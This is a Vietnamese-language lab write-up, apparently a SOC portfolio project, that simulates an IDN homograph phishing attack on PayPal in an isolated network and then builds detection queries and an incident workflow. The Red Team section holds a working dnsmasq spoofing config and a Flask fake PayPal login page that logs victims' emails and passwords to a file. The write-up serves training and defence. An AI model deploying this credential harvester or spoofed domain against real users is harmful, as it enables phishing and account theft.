









# IDN Homograph Attack Simulation & SOC Detection Pipeline

## 1. Tóm tắt điều hành (Executive Summary)
Dự án này mô phỏng một cuộc tấn công Phishing sử dụng kỹ thuật **IDN Homograph** (Tên miền giả mạo đồng hình), trong đó kẻ tấn công lợi dụng các ký tự Unicode trông giống hệt chữ cái Latinh (ví dụ: chữ Cyrillic 'а' thay cho chữ Latinh 'a') để tạo ra các tên miền giả mạo. 

Dự án được thực hiện dưới hai góc nhìn:
- **Red Team:** Dựng hạ tầng tấn công (DNS độc hại, Web Server giả mạo, SMTP Server) để đánh lừa nạn nhân nhập thông tin đăng nhập.
- **Blue Team:** Phân tích các log để xây dựng kịch bản phát hiện (Detection) và đưa ra quy trình điều tra (Investigation Workflow) dành cho SOC Analyst.

> **Ghi chú kỹ thuật về Chrome Browser:** Trong quá trình lab, Chrome hiện đại đã kích hoạt tính năng chống Spoofing (Anti-spoofing Policy) khi phát hiện tên miền trộn lẫn bảng chữ cái (Mixed-script), tự động chuyển hiển thị sang dạng Punycode (`xn--...`). Tuy nhiên, giao diện giả mạo vẫn lừa được nạn nhân nhập credentials. Điều này chứng minh rằng: **Bảo mật không thể chỉ dựa vào trình duyệt, mà cần có các lớp phòng thủ từ phía doanh nghiệp (Email Gateway, DNS Filtering) và đào tạo con người.**

## 2. Môi trường Lab (Lab Environment)
### 2.1. Sơ đồ mạng (Network Topology)
Toàn bộ lab được cô lập trong mạng Host-only (VMnet3) trên VMware Workstation.
- **Subnet:** `192.168.100.0/24`

| Vai trò | Hệ điều hành | IP Address | Dịch vụ/Tools |
| :--- | :--- | :--- | :--- |
| **Attacker (Web)** | Kali Linux | `192.168.100.10` | Python3, Flask |
| **Attacker (DNS/Mail)** | Ubuntu Server | `192.168.100.20` | dnsmasq, Mailpit |
| **Victim** | Windows 10 | `192.168.100.50` | Chrome Browser |


### 2.2. Công cụ sử dụng
- **dnsmasq:** Dựng DNS Server độc hại, phân giải tên miền Homograph về IP của Attacker.
- **Flask (Python):** Dựng Web Server giả mạo giao diện đăng nhập PayPal.
- **Mailpit:** Giả lập SMTP Server để nhận email Phishing.
- **Chrome:** Trình duyệt của nạn nhân.

---

## 3. Giai đoạn 1: Red Team (Tấn công)

### 3.1. Tạo tên miền Homograph
Kẻ tấn công sử dụng ký tự **Cyrillic 'а' (U+0430)** thay cho **Latinh 'a' (U+0061)**.
- Tên miền thật: `paypal.com`
- Tên miền giả mạo: `pаypal.com` (với chữ 'а' Kirin)
- Mã Punycode: `xn--pypal-4ve.com`



### 3.2. Cấu hình DNS độc hại (dnsmasq)
Cấu hình `dnsmasq` trên Ubuntu Server để trỏ tên miền Homograph về IP của Kali (`192.168.100.10`).

```text
# /etc/dnsmasq.conf
interface=ens33
bind-interfaces
no-hosts
address=/pаypal.com/192.168.100.10
address=/www.pаypal.com/192.168.100.10
address=/xn--pypal-4ve.com/192.168.100.10
address=/www.xn--pypal-4ve.com/192.168.100.10
```


### 3.3. Dựng Web Server giả mạo (Flask)
Máy Kali chạy một script Python (Flask) để giả lập giao diện đăng nhập PayPal. Khi nạn nhân nhập thông tin, dữ liệu sẽ được ghi lại vào file credentials.txt và nạn nhân bị redirect về trang PayPal thật.

file config `app.py`:
```python
from flask import Flask, request, render_template_string, redirect
import datetime

app = Flask(__name__)

# Giao diện HTML giả mạo cơ bản
HTML_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Log in to your PayPal account</title>
    <style>
        body { font-family: Arial, sans-serif; text-align: center; margin-top: 50px; }
        .login-box { border: 1px solid #ccc; padding: 30px; width: 300px; margin: 0 auto; border-radius: 10px; }
        input[type="text"], input[type="password"] { width: 90%; padding: 10px; margin: 10px 0; }
        input[type="submit"] { background-color: #0070ba; color: white; padding: 10px; width: 100%; border: none; border-radius: 5px; cursor: pointer; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>PayPal</h2>
        <h3>Log in to your account</h3>
        <form method="POST" action="/login">
            <input type="text" name="email" placeholder="Email or mobile number" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <input type="submit" value="Log In">
        </form>
    </div>
</body>
</html>
"""

@app.route('/')
def index():
    # Trả về trang đăng nhập
    return render_template_string(HTML_TEMPLATE)

@app.route('/login', methods=['POST'])
def login():
    # Lấy dữ liệu nạn nhân nhập
    email = request.form.get('email')
    password = request.form.get('password')
    victim_ip = request.remote_addr
    time_now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    
    # Ghi log ra file credentials.txt
    with open("credentials.txt", "a") as f:
        f.write(f"[{time_now}] IP: {victim_ip} | Email: {email} | Password: {password}\n")
    
    # Chuyển hướng nạn nhân về trang PayPal thật để đánh lạc hướng
    return redirect("https://www.paypal.com")

if __name__ == '__main__':
    # Chạy trên cổng 80 (yêu cầu quyền root)
    app.run(host='0.0.0.0', port=80)
```




### 3.4. Gửi Email Phishing (Mailpit)
Kẻ tấn công sử dụng Mailpit (chạy trên Ubuntu) để nhận email và một script Python trên Kali để gửi email giả danh PayPal chứa đường link độc hại.




### 3.5. Thực thi tấn công & Thu thập Credentials
Nạn nhân (Win10) click vào link trong email, trình duyệt Chrome cảnh báo Punycode `(xn--pypal-4ve.com)`, nhưng nạn nhân vẫn nhập tài khoản/mật khẩu do tâm lý chủ quan.





## 4. Giai đoạn 2: Blue Team (Phát hiện & Phân tích)
### 4.1. Các dấu hiệu bị xâm phạm (Indicator of Compromise - IoC)
Từ các log thu thập được, SOC Analyst xác định các IoC sau:
- Domain độc hại: `pаypal.com` (Chứa ký tự Kirin) và `xn--pypal-4ve.com` (Punycode).
- IP Attacker: `192.168.100.10` (Web), `192.168.100.20` (DNS/Mail).
- Hành vi mạng: Truy vấn DNS đến domain có chứa chuỗi `xn--`. Gửi HTTP POST request chứa form login đến một IP/Domain lạ.

### 4.2. Phân tích Log thô (Raw Log Analysis)
(Trong môi trường thực tế không có SIEM, SOC Analyst phải biết đọc log thô từ Syslog hoặc file log của dịch vụ)

DNS Query Log (trên dnsmasq):
Bật log-queries trong dnsmasq để ghi nhận lại các truy vấn. Khi nạn nhân click link, log sẽ ghi lại:

```
Oct 30 14:50:12 ubuntu-server dnsmasq[1234]: query[A] www.xn--pypal-4ve.com from 192.168.100.50
Oct 30 14:50:12 ubuntu-server dnsmasq[1234]: reply www.xn--pypal-4ve.com is 192.168.100.10
```

### 4.3. Xây dựng Logic phát hiện (Detection Logic) - Dành cho SIEM (Splunk/ELK/Wazuh)

Nếu tích hợp log này vào hệ thống SIEM, SOC Analyst sẽ sử dụng các câu lệnh sau để phát hiện tự động:

`Splunk SPL:`
```
index=dns sourcetype=dnsmasq
| search query_type=A
| eval is_punycode=if(match(query, "xn--"), "True", "False")
| where is_punycode="True"
| stats count by src_ip, query
```

`ELK:`
```
event.dataset: "dns" and dns.question.name: *xn--*
```

`WAZUH:`
```
...
```

### 4.4. Quy trình điều tra của SOC Analyst (Investigation Workflow)

Khi nhận được cảnh báo (Alert) từ rule phát hiện Punycode ở trên, SOC Analyst cần thực hiện quy trình sau:

1.  Triage (Phân loại): Xác minh IP nguồn `(192.168.100.50)`. Máy này thuộc user nào? Phòng ban nào?

2. Scope (Xác định phạm vi): Có máy nào khác trong hệ thống cũng truy vấn tên miền này không?

3. Containment (Cô lập): Ngắt kết nối mạng của máy nạn nhân khỏi mạng nội bộ để ngăn chặn mã độc lây lan (nếu có).

4. Eradication (Diệt trừ): Chặn tên miền `xn--pypal-4ve.com` trên DNS Server của công ty (DNS Sinkhole). Reset mật khẩu tài khoản bị lộ và thu hồi session (revoke sessions).

5. Post-Incident (Hậu sự cố): Gửi email cảnh báo toàn công ty về chiến dịch Phishing này.


### 5. Đề xuất phòng thủ (Mitigation)
Từ góc độ doanh nghiệp và người dùng:

- Đối với tổ chức:

  - Sử dụng Email Gateway (như Proofpoint, Mimecast) để lọc các email có chứa URL Punycode hoặc chứa ký tự Unicode đáng ngờ.

  - Triển khai DNS Filtering (như Cisco Umbrella) để chặn các tên miền mới đăng ký hoặc tên miền chứa Punycode.

  - Bật tính năng cảnh báo IDN Homograph trên toàn bộ trình duyệt của công ty.

- Đối với người dùng:

  - Luôn kiểm tra thanh địa chỉ. Nếu thấy chuỗi `xn--` xuất hiện, đó là dấu hiệu của tên miền Homograph -> Tuyệt đối không nhập thông tin.

  - Cảnh giác với các email yêu cầu đăng nhập khẩn cấp.

### 6. Giá trị mang lại (Value Proposition)
Dự án này là minh chứng thực tế cho các kỹ năng của một SOC Analyst:

1. Hiểu biết về Red Team: Tự tay dựng hạ tầng tấn công (DNS, Web, Mail) để hiểu cách kẻ tấn công vận hành.

2. Kỹ năng Blue Team thực chiến: Biết cách bật log (Syslog, dnsmasq), đọc log thô, và viết các câu truy vấn tìm kiếm dấu vết tấn công (IoC).

3. Tư duy phòng thủ chủ động: Đưa ra được quy trình điều tra (Workflow) và đề xuất Mitigation thực tế.

(Dự án có thể được mở rộng nâng cấp lên kịch bản Bypass MFA/OTP Phishing để tăng tính thực tế).

